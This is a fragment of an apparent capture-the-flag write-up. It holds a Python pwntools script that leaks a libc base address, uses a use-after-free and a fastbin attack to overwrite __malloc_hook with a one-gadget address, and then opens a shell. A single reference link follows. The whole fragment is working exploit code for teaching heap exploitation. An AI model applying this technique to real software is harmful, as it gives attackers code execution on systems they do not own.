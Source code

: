 ```python

fn_free(4)

recv = fn_dump(2)
libc_base = u64(recv.split("\x0a")[1][:6].ljust(8, "\x00")) - 0x3c4b78
one_shot  = libc_base + 0x4526a
__malloc_hook = libc_base + 0x3c4b10
size_7f = __malloc_hook - 0x23

print "libc base : {}".format(hex(libc_base))

fn_alloc(0x68) # idx 4
fn_free(4)     # del [4] <-- but UAF by idx 2

payload = p64(size_7f)
fn_fill(2, len(payload), payload)

fn_alloc(0x60)
fn_alloc(0x60) # idx 6 <-- will overwrite __malloc_hook

payload = ""
payload += "\x00" * 3
payload += p64(0) * 2
payload += p64(one_shot) # __malloc_hook
fn_fill(6, len(payload), payload)

fn_alloc(0x50)

p.interactive()
```

## Reference

[1] uaf.io : http://uaf.io/exploitation/misc/2016/09/10/Kernel-Exploitation-for-Dummies.html
